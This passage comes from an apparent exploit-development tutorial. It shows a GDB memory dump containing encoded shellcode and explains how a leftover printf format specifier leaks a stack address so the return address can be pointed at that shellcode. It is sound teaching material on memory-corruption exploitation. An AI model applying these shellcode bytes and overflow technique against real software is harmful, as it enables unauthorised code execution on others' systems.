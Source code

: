 ```
0xFFFFD4E4 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD4D4 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD4C4 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD4B4 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD4A4 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD494 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD484 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD474 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD464 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD454 : CC CC CC CC CC CC CC CC - CC CC CC CC CC CC CC CC ................
0xFFFFD444 : C1 22 9F 05 4D BC 81 19 - 7A 73 C1 CC CC CC CC CC ."..M...zs......
0xFFFFD434 : 25 CB 42 DC 87 4C 06 76 - 37 62 D4 EE 2F 53 78 87 %.B..L.v7b../Sx.
0xFFFFD424 : 6B EB 64 21 03 EE 98 38 - 88 67 79 8A 56 28 2B B9 k.d!...8.gy.V(+.
0xFFFFD414 : D3 C9 9F 9B 2E 89 73 3A - 01 B5 BE 3C 28 B3 B9 54 ......s:...<(..T
0xFFFFD404 : EA FC 03 77 20 19 1F 46 - E7 2A 03 FB 54 86 AE F9 ...w ..F.*..T...
0xFFFFD3F4 : EA DA C0 D9 74 24 F4 5A - 31 C9 B1 12 31 72 12 83 ....t$.Z1...1r..
0xFFFFD3E4 : F0 D3 FF FF 00 01 00 00 - F0 D3 FF FF BE 05 2E FB ................
--------------------------------------------------------------------------[code]
=> 0x8048512 <echo+53>:	lea    eax,[ebp-0x100]
   0x8048518 <echo+59>:	mov    DWORD PTR [esp+0x4],eax
   0x804851c <echo+63>:	mov    DWORD PTR [esp],0x80485f0
   0x8048523 <echo+70>:	call   0x8048370 <printf@plt>
   0x8048528 <echo+75>:	leave  
   0x8048529 <echo+76>:	ret    
   0x804852a <main>:	push   ebp
   0x804852b <main+1>:	mov    ebp,esp
--------------------------------------------------------------------------------

Breakpoint 1, 0x08048512 in echo ()
```

We can see the beginning of our buffer on the stack at the address 0xFFFFD3F0 with the first bytes of our shellcode 0xBE052EFB. That's the second piece of our exploit in place. Now we just need to point EIP at our shellcode.

### Executing Shellcode

Going back to the code we see something odd about the `printf()` statement on line 18. It seems that, whoever wrote the code was previously outputting some debug information after `buffer`. They've commented out the `debugValue`, but they've forgotten to remove the extra format specifier in the first argument to `printf()`. 

The call to `printf()` takes it's arguments off the stack with the first argument at ESP, the second at ESP+4 and so on, meaning that the application is outputting the value at ESP+8 which just so happens to contain the pointer to `buffer`, which was put on the stack for the call to `setmem()`.

We can see this from the listing above where ESP+8 (0xFFFFD3EC) contains the bytes 0xF0D3FFFF. Remember that the bytes are in little endian format so this translates to the stack address 0xFFFFD3F0 where our shellcode lies. This also matches up to the value output in the previous runs which is -11280 or 0xFFFFD3F0 in hex.

This in the last piece required to complete the exploit, so lets put it together and see if we can land it outside GDB. Note that the address of `buffer` will be different when running the program outside GDB so you will need to do a test run to get the correct return address for the exploit.
